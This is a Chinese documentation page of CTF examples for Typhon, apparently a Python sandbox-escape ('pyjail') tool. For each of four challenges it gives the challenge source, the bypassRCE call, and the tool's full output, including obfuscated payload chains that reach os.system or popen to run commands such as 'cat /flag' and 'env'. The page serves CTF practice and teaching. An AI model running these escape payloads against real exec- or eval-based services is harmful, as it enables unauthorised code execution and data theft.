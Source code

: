 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF 2025-Pyjail 2
---------------------------------------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 :func:`bypassRCE` 函数，即可得到flag（在 ``input()`` 时直接回车即可）。

.. code-block::
    :emphasize-lines: 34

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#help-rce>`_ 进行绕过即可 。

HNCTF 2022-calc_jail_beginner_level1
----------------------------------------------------------------

.. code-block:: python
    :linenos:
    :emphasize-lines: 6,29

    #the function of filter will banned some string ',",i,b
    #it seems banned some payload 
    #Can u escape it?Good luck!

    def filter(s):
        not_allowed = set('"\'`ib')
        return any(c in not_allowed for c in s)

    WELCOME = '''
    _                _                           _       _ _   _                _ __ 
    | |              (_)                         (_)     (_) | | |              | /_ |
    | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
    | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
    | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
    |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
                __/ |                          _/ |                                  
                |___/                          |__/                                                                                      
    '''

    print(WELCOME)

    print("Welcome to the python jail")
    print("Let's have an beginner jail of calc")
    print("Enter your expression and I will evaluate it for you.")
    input_data = input("> ")
    if filter(input_data):
        print("Oh hacker!")
        exit(0)
    print('Answer: {}'.format(eval(input_data)))

同上题，我们将 ``eval`` 所包含的行改为对应的绕过函数。将黑名单 ``"'`ib`` 作为 :attr:`~bypassRCE.banned_chr` 参数传入即可。（我们假设flag在 ``/flag`` ）

此题中，为了追求更好的演示效果，我们假设这个程序不支持后续的输入（否则 ``help`` 直接可以解出，可以查看 `此题 <https://typhonbreaker.readthedocs.io/zh-cn/latest/EXAMPLE.html#pwnyctf-2025-pyjail-2>`_ 的说明）。此处我们将 :attr:`~bypassRCE.interactive` 设置为 ``False``

.. code-block:: python
    :linenos:
    :emphasize-lines: 29,30

    #the function of filter will banned some string ',",i,b
    #it seems banned some payload 
    #Can u escape it?Good luck!

    def filter(s):
        not_allowed = set('"\'`ib')
        return any(c in not_allowed for c in s)

    WELCOME = '''
    _                _                           _       _ _   _                _ __ 
    | |              (_)                         (_)     (_) | | |              | /_ |
    | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
    | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
    | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
    |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
                __/ |                          _/ |                                  
                |___/                          |__/                                                                                      
    '''

    print(WELCOME)

    print("Welcome to the python jail")
    print("Let's have an beginner jail of calc")
    print("Enter your expression and I will evaluate it for you.")
    input_data = input("> ")
    if filter(input_data):
        print("Oh hacker!")
        exit(0)
    import Typhon
    Typhon.bypassRCE('cat /flag', banned_chr = '"\'`ib', interactive = False)

运行，使程序进行到 :func:`bypassRCE` 函数即可：

.. code-block::
    :emphasize-lines: 41

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(0 payload found): None
    type(1 payload found): type
    object(2 payloads found): str().__class__.__mro__[1]
    bytes(3 payloads found): type(str().encode())
    builtins set(10 payloads found): vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)]
    builtins module(24 payloads found): all.__self__
    builtins(1 payload found): __builtins__
    import(6 payloads found): getattr(all.__self__,chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))
    load_module(7 payloads found): all.__self__.__loader__.load_module
    modules(1 payload found): all.__self__.__loader__.load_module(chr(115)+chr(121)+chr(115)).modules
    os(16 payloads found): all.__self__.__loader__.load_module(chr(111)+chr(115))
    subprocess(16 payloads found): all.__self__.__loader__.load_module(chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115))
    uuid(16 payloads found): all.__self__.__loader__.load_module(chr(117)+chr(117)+chr(105)+chr(100))
    pydoc(16 payloads found): all.__self__.__loader__.load_module(chr(112)+chr(121)+chr(100)+chr(111)+chr(99))
    multiprocessing(16 payloads found): all.__self__.__loader__.load_module(chr(109)+chr(117)+chr(108)+chr(116)+chr(105)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)+chr(105)+chr(110)+chr(103))
    codecs(16 payloads found): all.__self__.__loader__.load_module(chr(99)+chr(111)+chr(100)+chr(101)+chr(99)+chr(115))
    warnings(16 payloads found): all.__self__.__loader__.load_module(chr(119)+chr(97)+chr(114)+chr(110)+chr(105)+chr(110)+chr(103)+chr(115))
    base64(16 payloads found): all.__self__.__loader__.load_module(chr(98)+chr(97)+chr(115)+chr(101)+chr(54)+chr(52))
    importlib(16 payloads found): all.__self__.__loader__.load_module(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(108)+chr(105)+chr(98))
    weakref(16 payloads found): all.__self__.__loader__.load_module(chr(119)+chr(101)+chr(97)+chr(107)+chr(114)+chr(101)+chr(102))
    reprlib(16 payloads found): all.__self__.__loader__.load_module(chr(114)+chr(101)+chr(112)+chr(114)+chr(108)+chr(105)+chr(98))
    sys(17 payloads found): all.__self__.__loader__.load_module(chr(115)+chr(121)+chr(115))
    linecache(16 payloads found): all.__self__.__loader__.load_module(chr(108)+chr(105)+chr(110)+chr(101)+chr(99)+chr(97)+chr(99)+chr(104)+chr(101))
    io(16 payloads found): all.__self__.__loader__.load_module(chr(105)+chr(111))
    ctypes(16 payloads found): all.__self__.__loader__.load_module(chr(99)+chr(116)+chr(121)+chr(112)+chr(101)+chr(115))
    profile(16 payloads found): all.__self__.__loader__.load_module(chr(112)+chr(114)+chr(111)+chr(102)+chr(105)+chr(108)+chr(101))
    timeit(16 payloads found): all.__self__.__loader__.load_module(chr(116)+chr(105)+chr(109)+chr(101)+chr(105)+chr(116))
    __import__2RCE(95 payloads found): all.__self__.__loader__.load_module(chr(111)+chr(115)).system(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    all.__self__.__loader__.load_module(chr(111)+chr(115)).system(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


    +++++++++++Jail broken+++++++++++


Typhon-Sample Pyjail 1 
----------------------

本题目由此文档编写。

.. code-block:: python
    :linenos:
    :emphasize-lines: 1,24,37

        # flag in env
        WELCOME = '''
        _     ______      _                              _       _ _ 
        | |   |  ____|    (_)                            | |     (_) |
        | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
        | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |·
        | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
        |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
                    __/ |                                           
                    |___/                                            
        '''
        import string

        print(WELCOME)

        print("Welcome to the python jail")
        print("Let's have an beginner jail of calc")
        print("Enter your expression and I will evaluate it for you.")
        if __name__ == '__main__':
            while True:
                try:
                    suc = True
                    cmd = input("Enter command: ")
                    blacklist = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
                    for i in blacklist:
                        if i in cmd:
                            print("Command not allowed")
                            suc = False
                            break
                    for i in cmd:
                        if i not in string.printable:
                            print("Command not allowed")
                            suc = False
                            break
                    if suc:
                        print(eval(cmd, {'__builtins__':None, 'st':str}))
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f'e ==> {e}')
                    pass

可以看到该题目有如下限制：

- 禁止使用 ``__loader__``、 ``__import__``、 ``os``、 ``\\x``、 ``+``、 ``join``、 ``"``、 ``'``、 ``2``、 ``3``、 ``4``、 ``5``、 ``6``、 ``7``、 ``8``、 ``9``、 ``subprocess``、 ``[``、 ``]``、 ``sys``、 ``pty``、 ``uuid``、 ``future``、 ``codecs``、 ``io``、 ``multi`` 等关键字。

- 禁止使用除 ``printable`` 字符集以外的字符。

- 命名空间为 ``{'__builtins__':None, 'st':str}`` 函数。

我们可以利用 ``Typhon`` 库中的 :func:`bypassRCE` 函数绕过限制。由于flag在环境中，我们执行 ``env`` 即可得到flag。

.. code-block:: python
    :linenos:

        import Typhon
        Typhon.bypassRCE(
            'env',
            local_scope = {'__builtins__':None, 'st':str},
            banned_chr = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
            )

.. tip::

    此处由于已经指定了命名空间，我们可以不在源代码上做修改，直接另起一个脚本调用 :func:`bypassRCE` 函数。但当题目没有指定命名空间时（即没有 ``local_scope`` 参数时），我们需要在源代码中调用 ``Typhon.bypassRCE()`` 函数。
    假如你不确定的话，也可以只在源代码中调用。

执行上述代码，即可得到payload。

.. note:: 

    对于复杂度较高的题目，可能需要等候较长时间。 `想提升性能？ <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#id3>`_ 

.. code-block::
    :emphasize-lines: 31

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(2 payloads found): st.__class__
    object(5 payloads found): ().__class__.__mro__.__getitem__(1)
    bytes(2 payloads found): st.__class__(st().encode())
    import(0 payload found): None
    load_module(0 payload found): None
    modules(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules
    builtins(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0)))
    sys(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0)))
    os(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0)))
    codecs(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1000).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b110000)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0)))
    warnings(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1010100).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110011)).__add__(st.__doc__.__getitem__(0)))
    importlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b1100111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    reprlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b10).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    linecache(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b11010000).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1101010)).__add__(st.__doc__.__getitem__(0b111)))
    io(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b100)))
    exec(0 payload found): None
    __import__2RCE(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()
    Reminder: index 0 of st.__doc__[0] must match the string literal s.
    Reminder: index 4 of st.__doc__[4] must match the string literal o.
    Reminder: index 7 of st.__doc__[7] must match the string literal e.
    Reminder: index 27 of st.__doc__[27] must match the string literal y.
    Reminder: index 45 of st.__doc__[45] must match the string literal n.
    Reminder: index 111 of st.__doc__[111] must match the string literal v.
    Reminder: 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter


    +++++++++++Jail broken+++++++++++

根据 ``reminder`` 信息稍微调整payload即可得到flag。

0xgame 2025 消栈逃出沙箱(1)反正不会有2
----------------------------------------------------------------

感谢 `Pure Stream <https://marblue.pink/>`_ 对题的授权。

题目源码：

.. code-block:: python
    :linenos:

    from flask import Flask, request, Response
    import sys
    import io

    app = Flask(__name__)

    blackchar = "&*^%#${}@!~`·/<>"

    def safe_sandbox_Exec(code):
        whitelist = {
            "print": print,
            "list": list,
            "len": len,
            "Exception": Exception
        }

        safe_globals = {"__builtins__": whitelist}

        original_stdout = sys.stdout
        original_stderr = sys.stderr

        sys.stdout = io.StringIO()
        sys.stderr = io.StringIO()
        
        try:
            exec(code, safe_globals)
            output = sys.stdout.getvalue()
            error = sys.stderr.getvalue()
            return output or error or "No output"
        except Exception as e:
            return f"Error: {e}"
        finally:
            sys.stdout = original_stdout
            sys.stderr = original_stderr

    @app.route('/')
    def index():
        return open(__file__).read()


    @app.route('/check', methods=['POST'])
    def check():
        data = request.form['data']
        if not data:
            return Response("NO data", status=400)
        for d in blackchar:
            if d in data:
                return Response("NONONO", status=400)
        secret = safe_sandbox_Exec(data)
        return Response(secret, status=200)

    if __name__ == '__main__':
        app.run(host='0.0.0.0',port=9000)

这是一个由 `Flask <https://flask.org.cn/en/stable/>`_ 框架构建的 pyjail web 挑战。我们不难注意到，此题目的 waf 有：

- 对命名空间的限制
.. code-block:: python

        whitelist = {
            "print": print,
            "list": list,
            "len": len,
            "Exception": Exception
        }

        safe_globals = {"__builtins__": whitelist}

- 对 payload 的黑名单限制
.. code-block:: python

    blackchar = "&*^%#${}@!~`·/<>"

由于这是一道web题目，我们不能控制程序的 stdin （即，类似于 ``input()`` , ``help()`` 的函数在此不适用）。因此，我们将 :attr:`~bypassRCE.interactive` 设置为 ``False``

.. code-block:: python
    :linenos:

    import Typhon

    Typhon.bypassRCE(
        "cat /*",
        local_scope={
            "__builtins__": {
                "print": print,
                "list": list,
                "len": len,
                "Exception": Exception,
            }
        },
        banned_chr= "&*^%#${}@!~`·/<>",
        interactive=False,
    )

运行，我们可得：

.. code-block::
    :emphasize-lines: 42

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(1 payload found): list.__class__
    object(4 payloads found): "".__class__.__bases__[0]
    bytes(3 payloads found): list.__class__(''.encode())
    builtins set(2 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']
    builtins module(0 payload found): None
    import(6 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']
    load_module(6 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__loader__'].load_module
    modules(1 payload found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('sys').modules
    os(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os')
    subprocess(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('subprocess')
    uuid(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('uuid')
    pydoc(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('pydoc')
    multiprocessing(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('multiprocessing')
    builtins(4 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('builtins')
    codecs(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('codecs')
    warnings(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('warnings')
    base64(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('base64')
    importlib(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('importlib')
    weakref(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('weakref')
    reprlib(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('reprlib')
    sys(4 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('sys')
    linecache(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('linecache')
    io(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('io')
    ctypes(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('ctypes')
    profile(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('profile')
    timeit(3 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('timeit')
    exec(32 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('profile').run
    __import__2RCE(1251 payloads found): "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os').system('\143\141\164 \57\52')


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    "".__class__.__bases__[0].__reduce_ex__(0,3)[0].__globals__['__builtins__']['__import__']('os').system('\143\141\164 \57\52')


    +++++++++++Jail broken+++++++++++

使用上述 payload 读取根目录下所有文件（包含 ``/flag`` ）。

.. note::

    此题的预期解法为利用 ``Exception`` 的 ``__traceback__`` 获取生成器通过栈帧寻找 ``__builtins__``。这涉及到多行绕过。

    Typhon目前还不支持此类题解，类似的解法将在下一个版本中得到实现。